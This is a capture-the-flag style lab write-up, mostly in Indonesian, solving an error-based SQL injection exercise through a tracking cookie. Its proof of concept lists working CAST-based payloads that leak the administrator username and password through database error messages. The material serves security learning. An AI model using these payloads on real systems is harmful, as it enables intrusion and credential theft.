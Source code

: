 Visible error-based SQL injection

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Berikut adalah pembaruan **Proof of Concept (PoC)** dengan menambahkan payload validasi awal baru:

---

### **1. Deskripsi Query dan Tujuan**
Tujuan dari eksploitasi ini adalah untuk memanfaatkan **error-based SQL injection** pada parameter `trackingId` guna mendapatkan kredensial pengguna admin (`username` dan `password`) dari tabel `users`.

#### **Query Utama:**
```sql
SELECT trackingId FROM trackingIdTable WHERE trackingId = 'pFNj0VuG3fnTFJ3a';
```

Query ini rentan terhadap **SQL injection** karena tidak ada validasi input, sehingga memungkinkan manipulasi menggunakan payload berbahaya.

---

### **2. Payload Validasi Awal**
#### **Payload Awal 1:**
```sql
pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
```
- **Tujuan:** Memastikan bahwa aplikasi rentan terhadap SQL injection dengan mencoba fungsi `CAST`.
- **`CAST((SELECT 1) AS int)`**: Mengonversi hasil query menjadi tipe data integer, memicu kesalahan jika input tidak valid.

#### **Payload Awal 2 (Baru Ditambahkan):**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
```
- **Tujuan:** Memvalidasi kerentanan SQL injection menggunakan pernyataan logika `1=CAST((SELECT 1) AS int)`.
- **`1=CAST(...)`**: Mengevaluasi logika untuk memastikan bagian query dapat dieksekusi.

---

### **3. Payload untuk Eksploitasi**

#### **Payload untuk Mengambil Username:**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
- **`SELECT username FROM users LIMIT 1`**:
  - Mengambil username pertama dari tabel `users`.
- **`CAST(... AS int)`**:
  - Memaksa aplikasi untuk mencoba mengonversi nilai teks (username) menjadi integer, yang akan menghasilkan pesan error.

#### **Payload untuk Mengambil Password:**
```sql
pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
- **`SELECT password FROM users LIMIT 1`**:
  - Mengambil password pertama dari tabel `users`.
- **Pesan Error:** Aplikasi memunculkan pesan error yang mengungkapkan data yang tidak bisa dikonversi, misalnya `fc9v2vqq5gozvlcb0ibj`.

---

### **4. PoC Langkah demi Langkah**

1. **Validasi Awal:**
   Uji aplikasi dengan dua payload validasi:
   ```sql
   pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
   ```
   ```sql
   pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
   ```
   **Hasil:** Aplikasi memunculkan pesan error yang menandakan SQL injection berhasil.

2. **Mengambil Username:**
   Eksploitasi untuk mengambil username dari tabel `users`.
   ```sql
   ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
   ```
   **Hasil:** Pesan error aplikasi menampilkan username pertama, misalnya `admin`.

3. **Mengambil Password:**
   Gunakan payload berikut untuk mendapatkan password pengguna:
   ```sql
   ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
   ```
   **Hasil:** Pesan error akan menampilkan password, misalnya `fc9v2vqq5gozvlcb0ibj`.

---

### **5. Penjelasan Detail Query**

#### **1. Validasi SQL Injection**
- Payload validasi bertujuan untuk memastikan kerentanan SQL injection dengan mengeksploitasi fungsi `CAST`:
  - `CAST((SELECT 1) AS int)` mencoba mengubah hasil query menjadi integer.
  - `1=CAST((SELECT 1) AS int)` mengevaluasi logika untuk memvalidasi hasil.

#### **2. Teknik Error-Based SQL Injection**
- **Error-Based SQL Injection** mengeksploitasi pesan error dari fungsi seperti `CAST` untuk mengekstrak data. Saat tipe data tidak sesuai (contoh: mencoba mengubah teks menjadi integer), aplikasi mengungkapkan informasi dari database melalui pesan error.

#### **3. Pengambilan Data Sensitif**
- `SELECT username FROM users LIMIT 1` dan `SELECT password FROM users LIMIT 1` memungkinkan penyerang mengekstrak informasi satu per satu, dimulai dari username hingga password.

---

### **6. Kesimpulan**
Dengan memanfaatkan **error-based SQL injection**, penyerang dapat mengekstrak informasi sensitif seperti username dan password. Berikut adalah payload langkah demi langkah:

1. **Payload Validasi Awal 1:**
   ```sql
   pFNj0VuG3fnTFJ3a' AND CAST((SELECT 1) AS int)--
   ```

2. **Payload Validasi Awal 2:**
   ```sql
   pFNj0VuG3fnTFJ3a' AND 1=CAST((SELECT 1) AS int)--
   ```

3. **Mengambil Username:**
   ```sql
   ' AND CAST((SELECT username FROM users LIMIT 1) AS int)--
   ```

4. **Mengambil Password:**
   ```sql
   ' AND CAST((SELECT password FROM users LIMIT 1) AS int)--
   ```
